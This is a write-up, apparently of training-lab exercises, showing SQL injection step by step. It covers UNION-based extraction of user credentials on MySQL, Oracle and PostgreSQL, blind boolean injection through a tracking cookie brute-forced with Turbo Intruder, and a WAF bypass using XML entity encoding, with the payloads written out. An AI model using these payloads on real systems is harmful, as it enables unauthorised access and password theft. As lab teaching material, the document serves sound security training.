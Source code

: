 ### SQL injection attack, querying the database type and version on MySQL and Microsoft
The Category parameter is injectable: find the number of columns that are returned by the query:
```
?category='+order+by+1--
```
But we get an internal server error, let’s try using another comment escape instruction (#)
<br>![img](./img/18.png)<br>
We could infer that it is a MySQL DB and that the query returns 2 columns, looking at the page we can also infer that at least one column is textual. Try the follows payload confirm that idea:
<br>![img](./img/19.png)<br>
Now get the DB version using the MySQL function VERSION()
<br>![img](./img/20.png)<br> 

### SQL injection attack, listing the database contents on Oracle
The lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual 

The followin attack confirm that the filter page param is prone to SQLi using the category parameter
<br>![img](./img/142.png)<br> 

Then we have to find out how many columns are returned by the query, looking at the response could be two. Try the followin payload:
    
    GET /filter?category='%20order%20by%202%20-- HTTP/1.1
Trying to order by the third column we got an error, then we can infer that all the returned columns are textual. To confirm that try the following payload:

    GET /filter?category='%20UNION%20SELECT%20'A'%2c'B'%20FROM%20dual%20-- HTTP/1.1

Since we know that the DBMS is Oracle we can proceed to list of the tables that the current user can access:
<br>![img](./img/143.png)<br> 

With the following query we can get the column name fro the user table:
<br>![img](./img/144.png)<br> 

Then proceed to get all the users and related passwords from the table:
<br>![img](./img/145.png)<br> 
That solve the lab

### SQL injection attack, listing the database contents on non-Oracle databases
The category parameter is injectable
<br>![img](./img/21.png)<br>
We can infer that the number of returned columns are 2, using the following payload:
```
?category='%20order%20by%202--
```
Looking at the response we can even infer that at least one column is a textual one, the following payload confirm that idea:
<br>![img](./img/22.png)<br>
We can retrieve the DBMS version using the VERSION() function:
<br>![img](./img/23.png)<br>
And we can get the list of all the user’s tables using the following view:
<br>![img](./img/24.png)<br>
Using the following payload, we can get the name of the table’s columns
<br>![img](./img/25.png)<br>
Now we can get all the entries for the user tables as follows:
<br>![img](./img/26.png)<br>
Following you can find a useful link about Postgresql system queries: https://razorsql.com/articles/postgresql_system_queries.html 

### Blind SQL injection with conditional responses
The lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called <b>users</b>, with columns called <b>username and password</b>. We need to exploit the blind SQL injection vulnerability to find out the <b>password of the administrator user. We can assume that the password only contains lowercase, alphanumeric characters.</b>

So we already have the following information:
- the table containing the user's information is named users
- there is a user called administrator
- her password contains only lowercase letters and eventually numbers

We proceed to test if the <b>trackingId</b> cookie is vulnerable to SQLi:
<br>![img](./img/146.png)<br>
Adding to the trackID the following payload

    TrackingId=XRjWcbSJ2Xx1LNwB' or 1=2 --

You can notice that the Welcome back message is not present into the response. We can verify if the users table exists and if contains a unser named administrator usign the following boolean condition:

    TrackingId=XRjWcbSJ2Xx1LNwB' AND (SELECT 1 FROM users LIMIT 1)=1 --
<i>Please note that from now on my TrackingId has changed, since my lab expired.</i>

We get back the welcome message again, meaning it is TRUE, of course changing the table name with a dummy valuse and we will not get the welcome back message into the response. That's fine, now we have to find out the length of the administrator password. To do that we take advantage of Turbo intruder, using the following payload;

    TrackingId=t5qXddoYcfINuMvm' AND (SELECT 1 FROM users WHERE username='administrator' AND LENGTH(password)=%s)=1 --
    
Where <b>%s</b> it is the Turbo intruder placeholder (1) that will be replaced with the loop value that represent the password length (2), when the correct length is found the request will be added to the result table (3). Of course we expect only one result.
<br>![img](./img/147.png)<br>
Lunch the attack and you will see one request added to the table, containing the length's value
<br>![img](./img/148.png)<br>
So we know that the length of the password is <b>20</b>, adding this information to the fact that it contains only alpha numeric (lower case) characters we can create another [list](./file/list_alphanum_chars.txt) to use in Turbo intruder to configure the next attack. The payload used is the following:

    t5qXddoYcfINuMvm' AND (SELECT SUBSTRING(password,%S,1) FROM users WHERE username='administrator')='%S

We use to parameters (1, 2) in a nested loop (3). We take, using SQL substring, each character for the whole length, so the first placeholder is the character position, we check if the returned value for the sunstring method is equal to the second placeholde, that is an alphanumeric value red fron our list, again if the response contains the welcome message (4) we know that the query is evaluated as TRUE
<br>![img](./img/149.png)<br>
Lunch the attack, you will notice that the result table begins to be populated with some entry, once finished we should get 20 entries (the password length), starting from the top we have each character as the second payload's value that build the password.
<br>![img](./img/150.png)<br>
For this lab sessione the administrator password is <b>ms5hlnp8851fm2c0xoyn</b>

### SQL injection with filter bypass via XML encoding
#### Lab
The lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 
Note that a WAF will block requests that contain obvious signs of a SQL injection attack. We need to find a way to obfuscate the malicious query to bypass this filter. It is recommended to use the <b>Hackvertor</b> extension to perform obfuscation.

Inspecting the proxy requests we can see that there is one POST made to get the stock availability:
<br>![img](./img/137.png)<br>
The product ID and the store ID are passed through XML, we can imagine that the query could be similar to the following:
```
select quantity from stock wehre productId=1 and storeId=1
```
If we try the following payload we are blocked by the WAF
<br>![img](./img/138.png)<br>
Eventually we can try with basica arithmetic operation:
- first set the storeId to 1, we get 128 units
- retry setting the storeId value to <b>2-1</b> we get <b>128 units</b>, the value for the storeID 1

It means that the operation was executed by the DBMS engine. We can try to obfuscate a payload <b>1+(select 1) using the Hackvertor exstension to try to bypass the WAF</b>:
<br>![img](./img/139.png)<br>
```
<storeId>
<@dec_entities>1+(select 1)<@/dec_entities>
</storeId>
```
Then the storeId node will look like above. Send the request, the value inside the custom Hackvertor tag will be converted as is shown inspecting Burp Logger
<br>![img](./img/140.png)<br>
As we can se the union was execute and we got the stock amount corresponding to the ID 2. We can now try to retrive the usernames and passwords stored into the user table using the following payload:
```
<storeId><@dec_entities>
0 union select concat(username,'    ',password) from users
<@/dec_entities></storeId>
```
<br>![img](./img/141.png)<br>
We can proceed to log-in using the administrator credentials


#### References
+ https://github.com/portswigger/hackvertor
